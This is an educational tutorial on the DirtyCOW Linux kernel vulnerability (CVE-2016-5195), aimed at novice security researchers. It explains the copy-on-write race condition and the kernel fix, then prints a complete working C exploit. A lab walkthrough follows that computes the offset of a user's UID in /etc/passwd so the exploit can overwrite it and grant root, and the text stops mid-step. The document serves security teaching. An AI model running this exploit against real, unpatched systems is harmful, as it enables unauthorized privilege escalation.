# Understanding_DirtyCOW
A resource for novice security researchers to learn about the DirtyCOW vulnerability

<br>

## What is DirtyCOW?

Dirty Copy-On-Write (COW) is a vulnerability affecting Linux Kernel Versions 2.6.22 - 4.8.3. It was initially found be security researcher Phil Oester. It's official name is CVE-2016-5195 and it is rated a CVSS base score of 7.8, which is categorized as high. With this vulnerability, it is possible for an attacker to escalate their privilege via a race condition due to a problem in the way the Linux Kernel handles memory-management. 

<br>

## What is a Race Condition?

A race condition occurs when two or more threads can access the same shared data and then try to change that data at the same time, and unexpected results occur. As an example, consider two ATM machines. Both have access to the same bank account, and both can be accessed independently. If two people were to access the same bank account at the same exact time, and both withdrew $100, the bank account should treat both of these transactions as separate and reduce the balance of the bank acount by $200. However, if the memory is not being managed appropriately, it is theoretically possible that if both withdrawals happened at the same exact time, the bank account may only register one transaction, giving the people a free $100 bill.

<br>

## How Does DirtyCOW Take Advantage of a Race Condition Within the Linux Kernel?

The Linux kernel has a few different system calls that are available to programmers for mapping specific files from storage into main memory, especially when that particular file is needed to be shared between two processes. The three system calls used to exploit the dirtyCOW vulnerability are `write()`, `mmap()`, and `madvise()`. These system calls do the following:

&nbsp;

- `write()`: writes bytes of data to a file descriptor

- `mmap()`: creates a new mapping in the virtual address space of the calling process

- `madvise()`: gives advice or directions to the kernel about the specified address range

&nbsp;

The race condition comes into play when these system calls are orchestrated in just the right way to cause a read-only file that has been memory mapped with the `mmap()` system call to accidentially allow the `write()` system call to write to this particular file.

<br>

## An Attack on /etc/passwd

In Linux, there is a file called `/etc/passwd` where all user accounts are listed and assigned their own particular user ID *(called UID)*. The UID is used to both identify the user to the system itself, and to determine the system resources the user has access to. The UID 0 is a special UID given to the   **root user**. The root user is able to do anything they may want to do on a Linux system, oftentimes called the "god" of the box.

By default, the `/etc/passwd` file is given the permission string that allows only the root user to write to it. The rest of the world can only read this particular file; they cannot write to it. This is a security mechanism, as the only account that should be able to add new users to the system, or reassign UIDs is the root user.

If, for some reason, a user account were able to modify it's UID to the number 0, the Linux Kernel would then mistakenly think that the user is actually the root user, and therefore able to do anything on the system. It is in this way that the DirtyCOW vulnerability can be used by an attacker to elevate their priviledges to the root user, and what makes this vulnerability so dangerous.

<br>

## VM Setup

The best way to understand what is happening with a vulnerability is to actually exploit it. You will first need to set up a Virtual Machine that is specifically vulnerable to DirtyCOW.

&nbsp;

1. Download an ISO file of an Ubuntu Linux version running with a kernel within this range: 2.6.22 - 4.8.3.  Ths ISO file that I will use moving forward can be downloaded [here](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04.1-desktop-amd64.iso)

&nbsp;

2. Create a new Ubuntu Virtual Machine in your chosen hypervisor software. I will be usig the free software called Virtualbox which you can download [here](https://www.oracle.com/virtualization/solutions/try-oracle-vm-virtualbox/?source=:ad:pas:go:dg:a_nas:71700000079866532-58700006707759183-p60696585100:RC_WWMK200609P00103C0001:&SC=:ad:pas:go:dg:a_nas::RC_WWMK200609P00103C0001:&gclid=Cj0KCQjw6s2IBhCnARIsAP8RfAgoCssBkKCnnBCZqDLIk-Gb0ioHtHGQn0Q_aTeLgtj2DlBgrgwT7HEaAsBgEALw_wcB&gclsrc=aw.ds)

&nbsp;

3. Once you have virtualbox up and running, you will need to create a new virtual machine. Oracle has an excellent guide to set this up [here](https://docs.oracle.com/cd/E26217_01/E26796/html/qs-create-vm.html). 

    - You will need to name your new VM (I named mine DirtyCow) and you will need to select the correct operating system:
        - Operating System: Linux
        - Version: Ubuntu 64-bit 
    
    &nbsp;

    - You will need to give your new VM enough memory, and that will depend on how much RAM your host machine has. I gave mine 4096MB, but 2048 should worked well enough. *(If you find your VM behaving very slowly, you can always bump this up later)*
    
    - When you get to the step to `Choose a virtual CD/DVD disk file`, you will need to select the ISO file you downloaded in step 1. 
 
    - **IMPORTANT**: Before you boot up your new VM, be sure to diable the network adapter in the VM's settings by clicking your VM in the list, then clicking settings, and going to the Network tab and disabling the network adapter. Since this is an old, out-of-date version of Linux, you want to be sure it does not automatically update.

    - Boot up your new VM and install Ubuntu as prompted.

    - If you want to be able to resize your screen or copy/paste, you will need to install the guest additions. This is a nice [walkthrough](https://www.youtube.com/watch?v=qNecdUsuTPw) on how to do that. Power off your VM for this to take effect. Also, before you restart, you should enable copy and paste in the VM settings while it is shut down.  Simply go to `Settings` -> `General` -> `Advanced` and set both drop down boxes to `bidirectional`. Now you can restart your VM and it should be ready.

    - Finally, Once the VM boots back up, disable the automatic updates by going to `System Settings` -> `Software & Updates` -> `Updates`, and change the drop down menu for "When there are security updates" from `Download and Install Immediately` to `Display Immediately`.  Make sure you don't accidentially update the VM! You can now re-enable the network adapter if you wish *(If you enabled copy/paste, you can just leave it disconnected from the internet)*

&nbsp;

4. You need to get the [exploit script](https://github.com/thaddeuspearson/Understanding_DirtyCOW/blob/main/exploit.c) on to your VM somehow. If you have enabled copy/paste and it is working for you, you can simply copy the script into a new file on your vm and make sure it is named `exploit.c`.  If you have re-enabled you rnetwork adapter, and your VM has internet connectivity, you can simply use the following command in the terminal:

    ```
    wget https://raw.githubusercontent.com/thaddeuspearson/Understanding_DirtyCOW/main/exploit.c
    ```

&nbsp;

**You now have all you need to run the DirtyCOW exploit! We will get to it, right after we examine the exploit script in detail to understand what is actually occuring.**

<br>


## Understanding the Exploit Script

<br>

Here is the exploit script as it comes by default:

<br>

```c
/* exploit.c */
/* a script to leverage the dirtyCOW vunlerability in the Linux Kernel */

#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>
#include <pthread.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/mman.h>


/* IMPORTANT: SPECIFY THE VARIABLES BELOW BEFORE COMPILING */

/* the filename to write into (str) */
#define TARGET_FILENAME "filename-goes-here"

/* what we want to write to the target (str) */
#define TARGET_CONTENT "content-goes-here"

/* the byte offset of the starting byte we want to write to (int) */ 
#define TARGET_OFFSET 5

/* declarations */
void *memory_map;
pthread_t write_thr;
pthread_t madvise_thr;
struct stat st;
char *target_content = TARGET_CONTENT;

void *madvise_helper(void *vargp) {
  while(1) {
    /* free the no longer needed memory-mapped file memory section */
    madvise(memory_map, st.st_size, MADV_DONTNEED);
  }
}

void *write_helper(void *vargp) {
  /* open memory file descriptor in read-write mode */
  int file_desc = open("/proc/self/mem", O_RDWR);
  
  while(1) {
    /* locate the offset we want to write to */
    lseek(file_desc, (uintptr_t)memory_map + TARGET_OFFSET, SEEK_SET);
    /* write the new_content */
    write(file_desc, target_content, strlen(target_content));
  }
}


/* main function */
int main() {

  /* open the file in read-only mode, and obtain the file descriptor */
  int file_desc = open(TARGET_FILENAME, O_RDONLY);
  /* get the file status, to learn the file size */
  fstat(file_desc, &st);
  
  /* map the file to memory, in read-only and private mode */
  memory_map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, file_desc, 0);

  /* make the threads */
  pthread_create(&write_thr, NULL, write_helper, NULL);
  pthread_create(&madvise_thr, NULL, madvise_helper, NULL);

  /* wait for threads to complete */
  pthread_join(write_thr, NULL);
  pthread_join(madvise_thr, NULL);

  return 0;
}
```

<br>

You will need to edit this script in order to get it ready to attack `/etc/passwd` and overwrite the UID of the user you choose to elevate to root. But before we do this let's take a high level view at what this script is doing so we can better understand the dirtyCOW vulnerability.

<br>

### Import Statements

<br>

```c
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>
#include <pthread.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/mman.h>
```

**This section of code is bringing in necessary modules to allow out script to work. Nothing super special here.**

<br>

### Target Variable Declarations

<br>

```c
/* IMPORTANT: SPECIFY THE VARIABLES BELOW BEFORE COMPILING */

/* the filename to write into (str) */
#define TARGET_FILENAME "filename-goes-here"

/* what we want to write to the target (str) */
#define TARGET_CONTENT "content-goes-here"

/* the byte offset of the starting byte we want to write to (int) */ 
#define TARGET_OFFSET 5
```

**This is the section you will need to modify in the script in order to accomplish a successful DirtyCOW exploit.**

<br>

- `TARGET_FILENAME` is the variable that will hold the path to the read-only file you wish to write to. It is a string type.

- `TARGET_CONTENT` is the variable that will hold the content you want to write to the target. It is also a string type.

- `TARGET_OFFSET` is the variable that will hold an integer value for the number of bytes into the file that we need Linux to read to get to the specific byte where we actually want to write our content to.

<br>

### Variable / Helper Function Declarations

<br>

```c
/* declarations */
void *memory_map;
pthread_t write_thr;
pthread_t madvise_thr;
struct stat st;
char *target_content = TARGET_CONTENT;

void *madvise_helper(void *vargp) {
  while(1) {
    /* free the no longer needed memory-mapped file memory section */
    madvise(memory_map, st.st_size, MADV_DONTNEED);
  }
}

void *write_helper(void *vargp) {
  /* open memory file descriptor in read-write mode */
  int file_desc = open("/proc/self/mem", O_RDWR);
  
  while(1) {
    /* locate the offset we want to write to */
    lseek(file_desc, (uintptr_t)memory_map + TARGET_OFFSET, SEEK_SET);
    /* write the new_content */
    write(file_desc, target_content, strlen(target_content));
  }
}
```

<br>

**In this section, we declare all the necessary variables and helper functions to be able to run in the main function.**

<br>

- `void *memory_map` is a pointer that will hold the memory address of the private mapping of the read-only file that we specify in `TARGET_FILENAME`

- `pthread_t write_thr` is a thread that attempts to write to our private read/write memory mapped copy of the `TARGET_FILENAME`

- `pthread_t madvise_thr` is a thread that will attempt to free our memory mapped memory section

- `struct stat st` is the struct that we will eventually get the file size from the `TARGET_FILENAME`

- `char *target_content` is a string pointer that will point to the content we wish to write

- `madvise_helper(void *vargp)` is a helper function that will run over and over again and attempt to free the memory-mapped file and is a main part of our exploit

- `write_helper(void *vargp)` ia a helper function that will run over and over again and attempt to write the content we wish to write to the read-only file we specified in `TARGET_FILENAME`. It will first get the file descriptor for the memory address of our own process, which contains a newly mapped location to the file we would like to write to.

<br>

### Main Function

<br>

```c
/* main function */
int main() {
  
  /* open the file in read-only mode, and obtain the file descriptor */
  int file_desc = open(TARGET_FILENAME, O_RDONLY);
  /* get the file status, to learn the file size */
  fstat(file_desc, &st);
  
  /* map the file to memory, in read-only and private mode */
  memory_map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, file_desc, 0);

  /* make the threads */
  pthread_create(&write_thr, NULL, write_helper, NULL);
  pthread_create(&madvise_thr, NULL, madvise_helper, NULL);

  /* wait for threads to complete */
  pthread_join(write_thr, NULL);
  pthread_join(madvise_thr, NULL);

  return 0;
}
```

<br>

**In this main function, all of the necessary steps to complete a successful DirtyCOW attack will be called. We will need to disect this line by line to get a full understanding of how this script is actually working under the hood.**

<br>

```c
/* open the file in read-only mode, and obtain the file descriptor */
  int file_desc = open(TARGET_FILENAME, O_RDONLY);
  /* get the file status, to learn the file size */
  fstat(file_desc, &st);
```

<br>

- First, we need to open up the read-only file that we specified in `TARGET_FILENAME`. The `open()` method opens the file in read-only mode, which is the only thing the Linux Kernel should allow.



- Next, we need to get the status of the open file, so we can eventually determine the file size. This will come in handy in just a second.

<br>

```c
 /* map the file to memory, in read-only and private mode */
  memory_map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, file_desc, 0);
```

<br>

- Here is where we are mapping the open file to a memory location. The `mmap()` method is creating a private mapping that we will soon attempt to write into. Something worth noting at this point is that this location has been opened in "read-only" mode. We will attempt to circumvent this in a moment.



<br>

```c 
/* make the threads */
pthread_create(&write_thr, NULL, write_helper, NULL);
pthread_create(&madvise_thr, NULL, madvise_helper, NULL);
```

<br>

- This is where the magic is happening. Since both helper functions are infinite while loops, both of these threads will continue to run until the script is killed by the user. *(This will make sense when we are actually executing the attack)*

- The `write_thr` is attempting to write the string we specified in `TARGET_CONTENT` at the specified location within the file we specified in `TARGET_FILENAME`. Since the file that we opened has been specifically opened in read-only mode, we are going to write to a copy that is created for us in a new memory location, not the original file itself.

- The `madvise_thr` is letting the Kernel know that we no longer need the `memory_map` we created in the step above, and that it may release the memory whenever it wishes to

<br>

**THIS IS WHERE THE DIRTY COPY ON WRITE ACTIALLY OCCURS**

<br>

- The `write()` function is considered to not be an atomic system call.  That is, the entire `write()` functon **DOES NOT** have to complete on a resource before another thread can acces that same resource. That means it could theoretically, write some data, a context switch on the CPU could occur, another thread could access that SAME partially written-to data, and then context switch back into the `write()` code block to finish out the operation. *This is a terrible programming practice.*  Anytime a write operation occurs, it should be considered **atomic** and that write operation should run to completion before another thread can access the data it was writing to.

- Since we are repeatedly calling the `write()` method in the `write_thr` while simultaneously calling `madvise()` in the `madvise_thr` if the right set of operations occur, then:
    
- The `write_thr` creates a private copy of the `TARGET_FILENAME`, since it cannot write to the `TARGET_FILENAME` because it was opened in read-only mode. This is called **copy-on-write** which is where the COW in DirtyCOW comes from! The pointer located in virtual memory now points to a new copy of `TARGET_FILENAME` in physical memory, instead of the original physical memory address `TARGET_FILENAME`.



<br>

- Before the actual `write()` method is called at this point, a context switch happens, and the `madvise_thr` begins executing, and it deallocates the private copy that was just created in physical memory, and changes the pointer located in virtual memory to now point back at the `TARGET_FILENAME`'s original physical memory address instead.
    


- Another context switch occurs, and the `write_thr` resumes execution, calling the `write()` method on the pointer that exists in virtual memory, except that this pointer no longer points to the copy that was created and then deallocated, it points to the original memory address of the `TARGET_FILENAME`. Since the `write()` function is allowed to write to the virtual address pointer (which is now pointing to the original physical address), the write operation is allowed by the kernel, and the `TARGET_CONTENT` is successfully written to the original physical memory address of the `TARGET_FILENAME`.
    


- Since the original `TARGET_FILENAME` was modified (also called **dirty** in the lexicon of operating system programming), the newly written-to file will be saved on disk, preserving the effects of the attack solidly within the system.



<br>

## The Fix

<br>

At this point, this vulnerability has been well-documented, and the Linux Kernel has been patched. Every version since 4.8.3 actively checks if a memory page being processed because it had been modified (*or dirty...*) had a previously deallocated copy that existed. If a previously deallocated copy is detected, the data is not written, and thus fixes the vulnerability.

<br>

## Time to Exploit!!!

<br>

At this stage, you should have a working Ubuntu VM with the exploit code that we just analyzed located on your system. If this the case, go back up to the **VM Setup** section above and complete these steps.


<br>

1. create a new user on your VM that is not a root user. For the sake of demonstration, I created a user called "userx" and gave userx the password "password" when prompted:

    ```
    sudo adduser userx
    ```
    
    <details><summary>Toggle for Screenshot</summary>
    
    

    </details>

&nbsp;

2. to prove that userx is not root, use the tail command to see the last entry of /etc/passwd, notice the UID is something else other than 0000 (*which would be root*):

    ```
    tail -n 1 /etc/passwd
    ```

    <details><summary>Toggle for Screenshot</summary>
    
    

    </details>
    
    
&nbsp;

3. We need to calculate the offset of the UID that is listed from the output generated from the command above.  We will use the `cat` command piped to the `grep` command to figure this out. (*If you created a different username replace 'userx' below with your username*):

    ```
    cat /etc/passwd | grep -b userx
    ```

     <details><summary>Toggle for Screenshot</summary>
    
    

    </details>
    
&nbsp;

4. The output of this command gave us the number of bytes that occur before the specific entry for userx in /etc/passwd. The specific bytes we are interested in are the 4 bytes that are located in the position of the UID. If we could change those to '0000' then our user will trick the system into becoming root. The output generated from the previous command for me was:
    
    ```
    2288:userx:x:1001:1001:,,,:/home/userx:/bin/bash
    ```

     <details><summary>Toggle for Screenshot</summary>
    
    

    </details>
    
&nbsp;

5. Looking at the output you got from the previous command, remember the number that appears at the beginning of the line and count the number of characters that exist from the begining of the username, up to the second colon `:`. Add this count to the number that appeared at the beginning of the line. This will be your `TARGET_OFFSET`. For me, there were only 8 total characters: `userx:x:`

    ```
    2288 + 8 = 2296
    ```

    You can verify that you have to correct offset by using the dd command and ensuring that you only see the UID as the response (*be sure to set the 'skip=' to the number you calculated above*):

    ```
    dd if=/etc/passwd bs=1 count=4 status=none skip=2296
    ```

     <details><summary>Toggle for Screenshot</summary>
    
    

    </details>
    
&nbsp;

6. Open the `exploit.c` script you downloaded onto your VM in the text editor of youf choice. I used `nano` to do this. Make sure you are in the same directory as the exploit.c script, or provide the full filepath to be able to edit it in this way. (*if you use another text editor, be sure to save the file as 'exploit.c' after you are done editing it*)

    ```
    nano exploit.c
    ```
    
     <details><summary>Toggle for Screenshot</summary>
    
